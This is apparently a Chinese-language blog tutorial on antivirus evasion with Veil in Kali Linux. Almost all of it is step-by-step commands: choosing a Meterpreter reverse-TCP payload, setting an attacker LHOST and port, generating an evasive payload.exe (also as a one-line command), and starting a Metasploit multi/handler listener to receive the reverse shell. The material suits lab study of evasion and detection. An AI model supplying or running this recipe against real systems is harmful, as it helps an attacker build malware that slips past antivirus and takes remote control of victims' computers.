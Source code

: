 ```yaml
---
title: Veil免杀入门
date: 2024-01-13 20:29:43
tags: Kali
mathjax: true
---
```


# Veil免杀入门

启动：

```bash
veil
```

使用Evasion工具：

```
use Evation
```

查看支持的攻击载荷：

```
list
```

选择攻击载荷：

```
use cs/meterpreter/rev_tcp.py
```

查看配置信息并配置：

```
options
set LHOST 192.168.29.134
```

生成攻击载荷：

```
generate
```

生成可执行文件payload.exe。

还有另一种生成方式，直接使用命令行生成：

```bash
veil -t Evasion -p cs/meterpreter/rev_tcp.py --ip 192.168.195.150 --port 4444
```

在MSF设置监听：

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.29.134
exploit
```

成功启动Meterpreter会话。
